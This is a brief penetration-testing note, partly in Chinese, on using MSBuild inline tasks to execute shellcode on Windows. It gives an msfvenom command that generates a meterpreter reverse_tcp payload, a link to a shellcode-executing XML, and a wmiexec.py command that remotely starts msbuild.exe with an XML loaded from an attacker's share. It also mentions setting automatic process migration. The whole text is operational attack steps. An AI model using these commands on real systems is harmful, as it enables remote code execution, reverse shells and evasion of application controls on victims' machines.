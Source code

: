 	链接
	https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20shellcode.xml
	>msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.108 lport=12138 -f csharp
	远程执行
	>wmiexec.py <USER>:'<PASS>'@<RHOST> cmd.exe /c start %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attackerip>\<share>\msbuild_nps.xml
	要设置自动迁移进程
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/74.png)